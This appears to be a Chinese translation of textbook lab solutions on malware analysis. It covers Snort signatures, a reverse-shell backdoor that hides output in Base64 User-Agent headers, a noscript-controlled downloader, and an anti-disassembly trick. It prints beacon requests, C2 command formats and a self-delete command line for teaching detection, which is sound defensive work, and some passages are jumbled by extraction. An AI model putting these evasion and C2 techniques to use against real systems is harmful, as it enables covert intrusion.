现在我们有两个正则表达式要考虑。以下是第一个正则表达式：

/\/**[A-Z0-9a-z+\/]**{3}6**[A-Z0-9a-z+\/]**{3}6**[A-Z0-9a-z+\/]**{3}6**[A-Z0-9a-z+\/]**{3}6**[A**

**-Z0-9a-z+\/]**{3}6**[A-Z0-9a-z+\/]**{3}t(**[A-Z0-9a-z+\/]**{4}){1,}\//

**1 4**

这个表达式的其中一个主要元素是[A-Z0-9a-z+\/]，用粗体表示，它匹配任何单个 Base64 字符。为了更好地理解这个表达式，我们将使用希腊字母 omega（）来替换这个元素：

/\/{3}6{3}6{3}6{3}6{3}6{3}t({4}){1,}\//

接下来，我们扩展多个字符：

/\/66666t(){1,}\//

如您所见，这种表示法更清楚地表明表达式捕获了以 6 和 t 结尾的四个字符的块。这个正则表达式针对 URI 的第一个具有静态字符的段。

第二个正则表达式针对至少 25 个字符的 Base64 表达式。文件名是一个字符，后面跟着.png，与前一段的最后一个字符相同。以下是这个正则表达式：

/\/[A-Z0-9a-z+\/]{24,}\([A-Z0-9a-z+\/]\)\/\1.png/

实验室解决方案

**631**

[www.it-ebooks.info](http://www.it-ebooks.info/)

应用与上一个表达式相同的澄清快捷方式，我们得到以下结果：

/\/{24,}\(\)\/**\1**.png/

这个表达式中的\1 指的是括号中捕获的第一个元素，即斜杠(/)之前字符串中的最后一个 Base64 字符。

现在我们有了两个可以识别恶意软件产生的模式的正则表达式，我们将每个转换为 Snort 签名以在网络中检测恶意软件产生的流量。第一个签名可能如下所示：

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"PM14.1.1 冒号和破折号"; urilen:>32; content:"GET|20|/"; depth:5; pcre:"/GET\x20\/[A-Z0-9a-z+\/]

{3}6[A-Z0-9a-z+\/]{3}6[A-Z0-9a-z+\/]{3}6[A-Z0-9a-z+\/]{3}6[A-Z0-9a-z+\/]{3}6[A

-Z0-9a-z+\/]{3}t([A-Z0-9a-z+\/]{4}){1,}\//"; sid:20001411; rev:1;) 这个 Snort 规则只在数据包开始处的 GET /包含内容字符串，但通常有更独特的内容字符串来提高数据包处理效果更好。urilen 关键字确保 URI 具有特定的长度——在这种情况下，大于 32 个字符（这包括了第一个路径段之外的额外字符）。

现在是第二个签名。这个签名的 Snort 规则可能如下所示：

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"PM14.1.2 Base64 和 png"; urilen:>32; uricontent:".png"; pcre:"/\/[A-Z0-9a-z+\/]{24,}([A-Z0-9a-z+\

/])\/\1\.png/"; sid:20001412; rev:1;)

此 Snort 规则在测试 PCRE 正则表达式之前，在正则表达式中搜索.png 内容，以提高数据包处理性能。它还添加了对 URI 长度的检查，该长度有一个已知的最低值。

除了前面的签名外，我们还可以针对诸如域名（*www.practicalmalwareanalysis.com*）和恶意软件下载可执行文件的事实等区域。结合签名通常是一种有效的策略。例如，一个产生常规误报的恶意软件签名，如果与一个在可执行文件下载时触发的签名结合使用，仍然可能是有效的。

**实验室 14-2 解决方案**

***简短回答***

1.

攻击者可能发现静态 IP 地址比域名更难管理。使用 DNS 允许攻击者将他的资产部署到任何计算机，并通过仅更改 DNS 来动态重定向他的机器人。

**632**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

地址。防御者有多种选择来部署针对这两种基础设施的防御措施，但出于类似的原因，IP 地址可能比域名更难处理。仅此一点就可能使攻击者选择静态 IP 地址而不是域名。

2.

恶意软件使用 WinINet 库。这些库的一个缺点是需要提供一个硬编码的用户代理，如果需要，还需要硬编码可选的标题。例如，与 Winsock API 相比，WinINet 库的一个优点是，一些元素，如 cookies 和缓存标题，由操作系统提供。

3.

在 PE 文件中的字符串资源部分包含用于命令和控制的 URL。攻击者可以使用资源部分将多个后门部署到多个命令和控制位置，而无需重新编译恶意软件。

4.

攻击者滥用 HTTP 用户代理字段，该字段应包含应用程序信息。恶意软件创建一个线程，在该字段中编码输出信息，并创建另一个线程，使用静态字段来指示它是通道的“接收”端。

5.

初始信标是一个编码的命令行提示符。

6.

当攻击者对输出信息进行编码时，他不会对输入命令进行编码。此外，由于服务器必须通过用户代理字段的静态元素来区分两个通信通道，这种服务器依赖性是明显的，并且可以通过签名进行针对。

7.

编码方案是 Base64，但使用自定义字母表。

8.

使用 exit 关键字终止通信。当退出时，恶意软件试图删除自己。

**1 4**

9.

这种恶意软件是一个小型、简单的后门。它的唯一目的是为远程攻击者提供一个不会被常见网络签名检测到的命令行界面。这种特定的恶意软件很可能是攻击者工具包中的丢弃组件，这一点得到了工具尝试删除自己的事实的支持。

***详细分析***

我们首先对恶意软件进行动态分析。恶意软件最初发送一个带有奇特的 User-Agent 字符串的信标：

GET /tenfour.html HTTP/1.1

User-Agent: (!<e6LJC+xnBq90daDNB+1TDrhG6aWG6p9LC/iNBqsGi2sVgJdqhZXDZoMMomKGoqx UE73N9qH0dZltjZ4RhJWUh2XiA6imBriT9/oGoqxmCYsiYG0fonNC1bxJD6pLB/1ndbaS9YXe9710A 6t/CpVpCq5m7l1LCqR0BrWy

Host: 127.0.0.1

Cache-Control: no-cache

实验室解决方案

**633**

[www.it-ebooks.info](http://www.it-ebooks.info/)

短时间内，它发送第二个信标：GET /tenfour.html HTTP/1.1

User-Agent: Internet Surf

Host: 127.0.0.1

Cache-Control: no-cache

**注意**

*如果你看到了初始信标但没有第二个信标，你的问题可能是由于你模拟服务器的方式。这种特定的恶意软件使用两个线程，每个线程都向同一服务器发送 HTTP 请求。如果一个线程未能得到响应，整个进程将退出。如果你依赖于 Netcat 或其他简单的模拟服务器解决方案，你可能会得到初始信标，但当第二个信标失败时，第一个也会退出。为了动态分析这种恶意软件，你必须使用两个 Netcat 实例或一个健壮的模拟服务器基础设施，如 INetSim。*

多次试验不会改变信标内容，但修改主机或用户将改变初始编码信标，这给我们一个线索，即编码信标的信息来源依赖于特定于主机的信息。

从网络功能开始，我们看到从 WinINet 库中导入了 InternetOpenA、InternetOpenUrlA、InternetReadFile 和 InternetCloseHandle。InternetOpenUrlA 的一个参数是常数 0x80000000\。

查找受影响的参数值，我们看到它代表 INTERNET_FLAG_RELOAD 标志。当设置时，此标志从初始信标生成 Cache-Control: no-cache 行，这展示了使用这些高级协议而不是更基本的套接字调用的优势。使用基本套接字调用的恶意软件需要在代码中显式包含 Cache-Control: no-cache 字符串，从而使其更容易被识别为恶意软件，并在尝试模仿合法流量时犯错误。

两个信标之间有什么关系？为了回答这个问题，我们创建了一个交叉引用图，显示了所有最终使用 Internet 函数的函数，如图 14-3L 所示。

如您所见，恶意软件有两个明显且对称的部分。检查 WinMain 中的第一个 CreateThread 调用，很明显，标记为 StartAddress 的 0x4014C0 函数是新线程的起始地址。标记为 s_thread2_start 的 0x4015CO 函数也是新线程的起始地址。

检查 StartAddress（0x4014C0），我们看到除了 s_Internet1（0x401750）函数外，它还调用了 malloc、PeekNamedPipe、ReadFile、ExitThread、Sleep 和另一个内部函数。s_thread2_start（0x4015CO）函数包含类似的架构，有调用 s_Internet2（0x401800）、malloc、WriteFile、ExitThread 和 Sleep。PeekNamedPipe 函数可以用来监视命名管道上的新输入。（与命令外壳关联的 stdin 和 stdout 都是命名管道。）

要确定两个线程正在读取或写入的内容，我们将注意力转向 WinMain，线程的来源，如图 14-3L 所示。我们看到在 WinMain 启动两个线程之前，它调用了 CreatePipeA、GetCurrentProcess、DuplicateHandle 和 CreateProcessA 函数。CreateProcessA 函数创建一个新的*cmd.exe*进程，其他函数**634**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



设置新进程，以便与命令进程句柄关联的 stdin 和 stdout 可用。

*图 14-3L：与互联网功能相关的函数图* 该恶意软件作者遵循构建反向命令外壳的常见模式。攻击者已启动一个新的命令外壳作为其自己的进程，并启动独立的线程来读取输入并将输出写入命令外壳。StartAddress（0x4014C0）线程使用 PeekNamedPipe 检查来自命令外壳的新输入，如果存在内容，则使用 ReadFile 读取数据。一旦读取这些数据，它就发送**1 4**

使用 s_Internet1（0x401750）函数将内容发送到远程位置。

另一个 s_thread2_start（0x4015C0）使用 s_Internet2（0x401800）连接到远程位置，如果命令外壳有任何新输入，它将写入命令外壳输入管道。

让我们回到 s_Internet1（0x401750）中传递给互联网函数的参数，以查找构成这些参数的原始来源。InternetOpenUrlA 函数接受一个 URL 作为参数，我们稍后看到该参数作为参数传递给函数，并在函数早期将其复制到一个缓冲区。在前面的标记为 StartAddress（0x4014C0）的函数中，我们看到 URL 也是一个参数。实际上，当我们追踪 URL 的来源时，我们必须追溯到 WinMain（0x4011C0）的开始和 LoadStringA 的调用。检查 PE 文件的资源部分，我们看到它包含用于信标（beaconing）的 URL。实际上，这个 URL 被用于两个线程发送的信标。

我们已将 s_Internet1 (0x401750) 的一个参数识别为 URL。另一个参数是 User-Agent 字符串。导航到 s_Internet1

(0x401750)，我们看到函数开始处的静态字符串 (!<。这与信标中看到的 User-Agent 字符串的开始相匹配，但它与作为 s_Internet1 (0x401750) 参数之一传递的较长的字符串连接在一起。在调用 s_Internet1 (0x401750) 之前，一个 Solutions to Labs

**635**

[www.it-ebooks.info](http://www.it-ebooks.info/)

内部函数在 0x40155B 处接受两个输入参数，并输出 User-Agent 字符串的主要内容。此编码函数是一个定制的 Base64 变体，它使用以下 Base64 字符串：

WXYZlabcd3fghijko12e456789ABCDEFGHIJKL+/MNOPQRSTUVmn0pqrstuvwxyz 当初始信标字符串被解码时，结果如下：Microsoft Windows XP [版本 5.1.2600]

(C) 版权所有 1985-2001 微软公司

C:\Documents and Settings\user\Desktop>

另一个线程使用 s_Internet2 (0x401800) 中的 Internet 函数。如前所述，s_Internet2 使用与 s_Internet1 相同的 URL 参数。

此函数中的 User-Agent 字符串被静态定义为字符串 Internet Surf.

如前所述，s_thread2_start (0x4015C0) 线程用于将输入传递给命令壳。它还提供了一个基于输入终止程序的功能。如果操作员将字符串 exit 传递给恶意软件，恶意软件将随后退出。位于 s_thread2_start (0x4015C0) 中的代码块 loc_40166B 包含对退出字符串的引用和用于测试传入网络内容的 strnicmp 函数。

**注意**

*我们还可以使用动态分析来深入了解恶意软件。0x40155B 处的编码函数可以通过它包含的 Base64 字符串被识别。通过在调试器中的函数处设置断点，我们会看到编码之前的 Windows 命令提示作为参数。编码的命令提示根据具体的操作系统和用户名略有不同，这就是为什么我们发现信标根据主机或用户而变化的原因。*

总结来说，两个线程分别处理管道到命令壳的不同端。具有静态 User-Agent 字符串的线程从远程攻击者那里获取输入，而具有编码 User-Agent 字符串的线程作为命令壳的输出。这是攻击者混淆其活动并避免从受损害的服务器中明文发送命令提示的一种巧妙方法。

支持这种观点的一个证据是，恶意软件在退出时尝试删除自己。在 WinMain (0x4011C0) 中，有三个可能的功能结束。两个早期终止发生在线程创建失败时。在所有三个终止情况下，都会调用 0x401880。0x401880 的目的是在恶意软件退出后从磁盘删除恶意软件。

0x401880 实现了 ComSpec 方法的自我删除。本质上，ComSpec 方法包括使用定义了 ComSpec 环境变量的 ShellExecute 命令，并带有命令行

/c del [executable_to_delete] > nul，这正是 0x401880 所执行的。

**636**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**网络签名**

对于除了 URL 之外的其他签名，我们针对静态用户代理字段、静态编码用户代理字符以及编码命令行提示符的长度和字符限制，如列表 14-4L 所示。

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"PM14.2.1 可疑的用户代理（网络浏览）"; content: "User-Agent:|20|Internet|20|Surf"; http_header; sid:20001421; rev:1;)

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"PM14.2.2 可疑的用户代理（以(!<开头）"; content: "User-Agent:|20|(!<"; http_header; sid:20001422; rev:1;)

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"PM14.2.3 可疑的用户代理（长 B64）"; content:"User-Agent:|20|"; content:!"|20|"; distance:0; within:100; pcre:"/User-Agent:\x20[^\x0d]{0,5}[A-Za-z0-9+\/]{100,}/"; sid:20001423; rev:1;)

*列表 14-4L：实验 14-2 的 Snort 签名*

在列表 14-4L 中，前两个签名（20001421 和 20001422）很简单，针对的是用户代理头内容，希望这些内容不太常见。最后一个签名（20001423）仅针对编码命令行提示符的长度和字符限制，而不假设存在与 20001422 中目标相同的起始字符。因为签名正在寻找一个不那么具体的模式，所以更可能遇到误报。PCRE 正则表达式搜索用户代理头，后面跟着至少 100 个来自 Base64 字符集的字符串，允许用户代理开头有最多五个任意字符（只要它们不是换行符，表示新的头）。**1 4**

可选的五字符允许用户代理字符串有一个特殊的开头，例如恶意软件中看到的(!<)。对 Base64 字符集 100 个字符的要求是基于预期命令提示符长度的估计。

最后，对空格字符的负内容搜索纯粹是为了提高签名的性能。大多数用户代理字符串在字符串的早期就会有空格字符，所以这个检查将避免对大多数用户代理字符串测试正则表达式。

**实验 14-3 解答**

***简短回答***

1.

固定头包括 Accept、Accept-Language、UA-CPU、Accept-Encoding 和 User-Agent。恶意软件作者错误地在一个实际的 User-Agent 中添加了额外的 User-Agent:，导致重复的字符串：User-Agent: User-Agent: Mozilla.... 完整的用户代理头（包括重复的部分）构成了一个有效的签名。

实验解答

**637**

[www.it-ebooks.info](http://www.it-ebooks.info/)

2.

仅在配置文件不可用的情况下，URL 的域名和路径才会被硬编码。应对此硬编码的 URL 以及观察到的任何配置文件进行签名。然而，可能更有效的是仅针对硬编码的组件进行目标定位，而不是将它们与更动态的 URL 关联。因为 URL

使用的存储在配置文件中，可以通过一个命令进行更改，我们知道它是短暂的。

3.

恶意软件从 noscript 标签内的网页特定组件中获取命令，这与章节中提到的注释字段示例类似。使用这种技术，恶意软件可以向合法网页发送信标并接收合法内容，这使得防御者分析恶意流量与合法流量变得更加困难。

4.

为了使内容被解释为命令，它必须包含一个初始的 noscript 标签，后跟一个完整的 URL（包括*http://*），该 URL 包含用于原始网页请求的相同域名。该 URL 的路径必须以 96'结尾。在域名和 96（被截断）之间，有两个部分组成命令和参数（形式类似于/command/1213141516）。命令的第一个字母必须与一个允许的命令相对应，并且，当适用时，参数必须可以转换为一个对给定命令有意义的参数。

恶意软件作者限制了可用于提供有关恶意软件功能线索的字符串。当搜索 noscript 时，恶意软件搜索<no，然后通过独立和打乱的字符比较验证 noscript 标签。恶意软件还重复使用用于域的相同缓冲区来检查命令内容。对 96'的另一个字符串搜索只有三个字符，而其他搜索仅针对/字符。在评估命令时，只考虑第一个字符，因此攻击者可能，例如，在网页响应中使用单词 soft 或 seller 来给恶意软件发送睡眠命令。流量分析可能识别出攻击者使用单词 soft 向恶意软件发送命令，这可能会导致在签名中使用完整单词的误导性使用。攻击者可以自由使用 seller 或任何以 s 开头的其他单词，而无需修改恶意软件。

5.

睡眠命令没有编码；数字表示睡眠的秒数。对于两个命令，参数使用一种自定义的、尽管简单但不是 Base64 的编码进行编码。参数以偶数位数字的形式呈现（一旦尾部的 96

is removed). 每组两位数字代表一个原始数字，它是数组 /abcdefghijklmnopqrstuvwxyz0123456789:.. 的索引。这些参数仅用于通信 URL，因此不需要大写字母。这种方案的优势在于它是非标准的，因此我们需要逆向工程它以理解其内容。缺点是它很简单。它可能在字符串输出中被识别为可疑，并且因为 URL 总是以相同的方式开始，所以会有一个一致的模式。

**638**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

6\.

恶意软件命令包括退出、下载、休眠和重定向。退出命令简单地退出程序。下载命令下载并运行可执行文件，但与上一个实验不同，攻击者可以指定下载的 URL。重定向命令修改恶意软件使用的配置文件，以便有一个新的信标 URL。

7\.

这种恶意软件本质上是一个下载器。它具有一些重要的优势，例如基于 Web 的控制和能够在识别并关闭恶意域名后轻松调整。

8\.

可独立针对的恶意软件行为的某些独特元素包括以下内容：



与静态定义的域和路径以及任何动态发现的 URL 的类似信息相关的签名



与信标静态组件相关的签名



识别命令初始要求的签名



识别命令和参数对特定属性的签名

9\.

请参阅详细分析以获取特定签名。

***详细分析***

运行恶意软件，我们看到它产生了以下信标数据包：GET /start.htm HTTP/1.1

Accept: */*

Accept-Language: en-US

UA-CPU: x86

**1 4**

Accept-Encoding: gzip, deflate

User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1;

.NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)

Host: www.practicalmalwareanalysis.com

Cache-Control: no-cache

我们首先识别恶意软件使用的网络功能。

查看导入项，我们看到来自两个库的函数：WinINet 和 COM。使用的函数包括 InternetOpenA、InternetOpenUrlA、InternetCloseHandle 和 InternetReadFile。

从 WinINet 函数开始，导航到包含 InternetOpenUrlA 的函数，地址为 0x004011F3。注意，在 InternetOpenA 之前有一些静态字符串在代码中，如列表 14-5L 所示。

"Accept: */*\nAccept-Language: en-US\nUA-CPU: x86\nAccept-Encoding: gzip, deflate"

"User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR

3.0.4506.2152; .NET CLR 3.5.30729)"

*列表 14-5L：信标中使用的静态字符串*

实验室解决方案

**639**

[www.it-ebooks.info](http://www.it-ebooks.info/)

这些字符串与初始信标中的字符串一致。乍一看，它们似乎相当常见，但元素组合实际上可能很罕见。通过编写一个寻找特定头部组合的签名，你可以根据签名被触发的次数来了解这种组合有多罕见。

仔细看看列表 14-5L 中的字符串，并与分析开始时的原始信标数据包进行比较。你注意到信标数据包中重复出现的 User-Agent: User-Agent: 吗？尽管在字符串输出中看起来正确，但恶意软件作者犯了一个错误，忘记了 InternetOpenA 调用包括标题头。这个疏忽将允许一个有效的签名。

让我们先确定信标内容，然后我们将调查恶意软件如何处理响应。我们看到在 0x004011F3 处的网络函数接受两个参数，在 InternetOpenUrlA 调用之前只有一个被使用。这个参数是定义信标目的地的 URL。父函数是 WinMain，它包含主循环和 Sleep 调用。在 WinMain 中回溯 URL 参数，我们看到它在 0x00401457 处的函数中被设置，该函数包含一个 CreateFile 调用。

这个函数（0x00401457）引用了几个字符串，包括 C:\\ autobat.exe 和 http://www.practicalmalwareanalysis.com/start.htm。静态 URL（以 *start.htm* 结尾）似乎在一个表示无法打开文件的分支上，这表明如果文件不存在，它就是回退信标 URL。

检查使用 *C:\\* *autobat.exe* 引用的 CreateFile 函数，看起来 ReadFile 命令将一个缓冲区作为参数，该参数最终被传递回 InternetOpenUrlA 函数。因此，我们可以得出结论，*autobat.exe* 是一个配置文件，它以明文形式存储 URL。

在确定了信标的所有源组件后，返回到原始调用以确定接收一些内容后可能发生什么。在 0x004012C7 处的 InternetReadFile 调用之后，我们看到另一个对 strstr 的调用，其中一个参数是 <no。这个 strstr 函数位于两个循环中，外层调用包含对 InternetReadFile 的调用以获取更多数据，内层调用包含 strstr 函数和对另一个函数（0x00401000）的调用，该函数在我们找到 <no 字符串时被调用，我们可以假设这是对是否找到正确内容的额外测试。当我们检查内部函数时，这个假设得到了证实。

图 14-4L 显示了使用一系列小连接块对输入缓冲区进行测试。攻击者试图通过将比较分解成许多小测试来伪装他正在寻找的字符串，以消除明显的比较字符串。此外，请注意，所需的字符串（<noscript>）被混合在一起，以避免产生明显的模式。图 14-4L 中的前三个比较是位置 0 的'n'，位置 5 的'i'和位置 1 的'o'。

在单字节比较之后，有两个大的比较块。第一个包含对/字符的搜索以及两个字符串的字符串比较（strstr），这两个字符串都作为参数传递。一些**640**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



回溯，很明显，其中一个参数是从互联网上读取的字符串，另一个是来自配置文件的原始 URL。对/的搜索是 URL 内的反向搜索。一旦找到，将/转换为 NULL 以空终止字符串。本质上，这个块是在返回的缓冲区中搜索 URL（减去文件名）。

*图 14-4L：混淆的字符串比较*

第二个块是在截断 URL 的末尾开始搜索静态字符串 96'。函数底部有两个路径：一个代表未能找到所需特征，另一个代表-1 4

成功的路径。注意大量关注失败状态的路径（loc_401141）。这些路径代表搜索的早期终止。

总结来说，假设正在使用默认 URL，这部分代码中的过滤器函数正在寻找以下内容（noscript 标签后面的省略号表示可变内容）：

<noscript>... http://www.practicalmalwareanalysis.com *返回内容* 96'

现在，让我们将重点转向返回的内容。回到 WinMain，我们看到 0x00401684 处的函数紧随 Internet 函数（0x004011F3）之后，并接受一个类似的参数，结果证明这个参数是 URL。

这是决策函数，这通过识别使用跳转表的 switch 结构得到证实。在 switch 结构之前，使用 strtok 将命令内容分成两部分，这两部分被放入两个变量中。以下是从第一个字符串中提取第一个字符并将其用于 switch 语句的反汇编代码：

004016BF mov ecx, [ebp+var_10]

004016C2 movsx edx, byte ptr [ecx]

实验室解决方案

**641**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004016C5 mov [ebp+var_14], edx

004016C8 mov eax, [ebp+var_14]

004016CB sub eax, 'd'

Case 0 是字符'd'。所有其他

的情况比该值大 10、14，

和 15，这对应于'n'、'r'和

's'。'n'函数是最容易的一个

弄清楚，因为它没有做其他

than set a variable that causes the main

loop to exit. The 's' function turns out to

睡眠，并使用图 14-5L 中共享函数的第二部分

command directly as a number value for

the sleep command. The 'r' and 'd' func-

tions are related, as they both pass the sec-

ond part of the command into the same

function early in their execution, as shown

in Figure 14-5L.

'd'函数调用两个

URLDownloadToCacheFileA 和 CreateProcessA 的代码，

看起来非常像来自

Lab 14-1\. URL 由输出提供

put of the shared function in Figure 14-5L

(0x00401147)，我们可以现在假设

*Figure 14-5L: 函数图*

is some sort of decoding function. The 'r'

*显示连接*

function also uses the encoding function,

*the 'r' and 'd' commands*

并将输出用作

函数在 0x00401372，它引用了 CreateFile、WriteFile 以及之前提到的相同的 *C:\\autobat.exe* 配置文件。从这个证据中，我们可以推断出'r'函数的意图是通过覆盖配置文件将恶意软件重定向到不同的信标站点。

最后，让我们看看用于重定向和下载功能的编码函数。我们已经知道解码后的内容被用作 URL。检查 0x00401147 处的解码函数，注意右下角的循环。在循环开始时，有一个对 strlen 的调用，这意味着输入是分块编码的。检查循环的末尾，我们看到在返回顶部之前，包含输出的变量（通过其在函数末尾的存在被识别）增加了一个，而源函数增加了两个。该函数每次从源中取两个字符，将它们转换为数字（使用 atoi 函数），然后使用该数字作为以下字符串的索引：

/abcdefghijklmnopqrstuvwxyz0123456789:.

**642**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

虽然这个字符串看起来与 Base64 字符串有些相似，但它没有大写字母，并且只有 39 个字符。（一个 URL 可以用仅小写字母充分描述。）根据我们对算法的理解，让我们用图 14-6L 中显示的编码对恶意软件的默认 URL 进行编码。

**h**

**t**

**t**

**p**

**:**

**/**

**/**

**w w w**

**.**

**p**

**r**

**a**

**c**

**t**

**i**

**c**

**a**

**l**

08 20 20 16 37 00 00 23 23 23 38 16 18 01 03 20 09 03 01 12

**m**

**a**

**l**

**w**

**a**

**r**

**e**

**a**

**n**

**a**

**l**

**y**

**s**

**i**

**s**

**.**

**c**

**o**

**m**

**/**

**s**

**t**

**a**

**r**

**t**

**.**

**h**

**t**

**m**

13 01 12 23 01 18 05 01 14 01 12 25 19 09 19 38 03 15 13 00 19 20 01 18 20 38 08 20 13

*Figure 14-6L: 使用自定义密码的默认 URL 的示例编码* 如您所见，任何以 *http://* 开头的 URL 编码都将始终包含字符串 08202016370000\.

现在，让我们利用我们所学的知识来生成一组适合恶意软件的签名。总体而言，我们有三种类型的通信：信标数据包、嵌入网页中的命令以及下载并执行文件的请求。由于下载请求完全基于来自攻击者的数据，因此很难为其生成签名。

**信标**

信标数据包具有以下结构：

GET */start.htm* HTTP/1.1

**Accept: */*** 

**Accept-Language: en-US**

**UA-CPU: x86**

**1 4**

**Accept-Encoding: gzip, deflate**

User-Agent: **User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1;**

**.NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)**

Host: *www.practicalmalwareanalysis.com*

Cache-Control: no-cache

斜体中的元素由 URL 定义，它们可能是短暂的（尽管如果已知，则肯定应该使用）。粗体元素是静态的，来自代码中的两个不同字符串（参见列表 14-5L）。

由于攻击者错误地包含了一个额外的 User-Agent:，因此要针对的明显签名是带有附加 User-Agent 标头的特定 User-Agent 字符串：

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"PM14.3.1 具有重复头部的特定 User-Agent"; content:"User-Agent|3a20|User-Agent|3a20| 

Mozilla/4.0|20|(compatible\;|20|MSIE|20|7.0\;|20|Windows|20|NT|20|5.1\;|20|

.NET|20|CLR|20|3.0.4506.2152\;|20|.NET|20|CLR|20|3.5.30729)"; http_header; sid:20001431; rev:1;)

实验室解决方案

**643**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Web 命令**

网页提供的命令的整体图景如下：

<noscript>... *truncated_url*/ *cmd_char*.../ *arg* 96'

恶意软件在网页中搜索几个静态元素，包括 noscript 标签、URL 的前缀字符（*http://*）和尾随的 96'。由于读取 *cmd_char* 结构的解析函数位于代码的不同区域，并且可能独立更改，因此应单独针对它。因此，以下是为针对恶意软件期望的静态元素而设计的签名：

alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET any (msg:"PM14.3.2 结尾的 noscript 标签"; content:"<noscript>"; content:"http\://"; distance:0; within:512; content:"96'"; distance:0; within:512; sid:20001432; rev:1;) 要针对的另一段代码是命令处理。恶意软件接受的命令列在表 14-2L 中。

**表 14-2L:** 恶意软件命令

**名称**

**命令**

**参数**

download

d

编码的 URL

quit

n

NA

redirect

r

编码的 URL

sleep

s

秒数

下载和重定向功能都使用相同的例程来解码 URL（如图 14-5L 所示），因此我们将同时针对这两个命令：

alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET any (msg:"PM14.3.3 下载或重定向命令"; content:"/08202016370000"; pcre:"/\/[dr][^\/]*\/

08202016370000/"; sid:20001433; rev:1;)

此签名使用字符串 08202016370000，我们之前已将其识别为*http://*的编码表示。PCRE 规则选项包括此字符串和正斜杠，以及表示下载和重定向命令的 d 和 r。\/是一个转义的正斜杠，[dr]代表字符 d 或 r，[^\/]*匹配零个或多个不是正斜杠的字符，\/是另一个转义的斜杠。

单独的退出命令只有一个已知的字符，这不足以单独定位。因此，我们需要定位的最后一个命令是 sleep，可以使用以下签名检测：alert tcp $EXTERNAL_NET $HTTP_PORTS -> $HOME_NET any (msg:"PM14.3.4 Sleep Command"; content:"96'"; pcre:"/\/s[^\/]{0,15}\/[0-9]{2,20}96'/"; sid:20001434; rev:1;)

**644**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

由于没有固定的内容表达式目标来提供足够的处理性能，我们将使用命令字符串本身之外的一个元素（96'）来实现一个高效的签名。PCRE 识别紧跟在 s 后面的正斜杠，然后是 0 到 15 个不是正斜杠的字符（'[^\/]{0,15}'），一个正斜杠，然后是 2 到 20 个数字加上一个尾随的 96'。

注意，匹配正则表达式的字符数上下限不是由恶意软件所能接受的来驱动的。相反，它们是由攻击者合理期望的成本与无界正则表达式相关的成本之间的权衡所决定的。因此，尽管恶意软件确实能够接受超过 20 位的睡眠值，但攻击者发送这样的值是值得怀疑的，因为这相当于超过 3000 亿年。对于以 s 开头的术语的 15 个字符假设攻击者会继续选择以 s 开头的单个单词，尽管如果需要更可靠的签名，这个值当然可以增加。

**实验 15-1 解答**

***简答***

1\.

此程序使用假条件分支：xor eax, eax 后跟 jz。

2\.

程序欺骗反汇编器将操作码 0xE8（5 字节调用指令的第一个字节）反汇编，该指令紧跟在 jz 指令之后。

3\.

此程序中使用了五次假条件分支技术。

4\.

命令行参数 pdq 将导致程序打印

“做得好！”

**1 5**

***详细分析***

首先，我们将文件加载到 IDA Pro 中，并滚动到地址 0x401000 的主函数。在函数开始处几行之后，内存地址 0x0040100E，我们看到反汇编的第一个迹象，如列表 15-1L 所示。

00401006 83 7D 08 02 cmp dword ptr [ebp+8], 2

0040100A 75 52 jnz short loc_40105E

0040100C 33 C0 xor eax, eax

0040100E 74 01 jz short near ptr loc_401010+1 

00401010

00401010 loc_401010: ; CODE XREF:0040100Ej 00401010 E8 8B 45 0C 8B

call near ptr 8B4C55A0h

*列表 15-1L：jz 跳入调用指令的中间* 如所示，jz 指令似乎跳入了处的 5 字节调用指令的中间。我们必须确定这个分支是否会执行。

实验解答

**645**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在此分支之前的指令是 xor eax, eax，这将始终将 EAX 寄存器设置为 0，因此始终导致零标志被设置。因此，jz 指令将始终在此点跳转，因为零标志的状态始终是已知的。我们必须修改反汇编，以显示跳转的真实目标，而不是与之重叠的假调用指令。

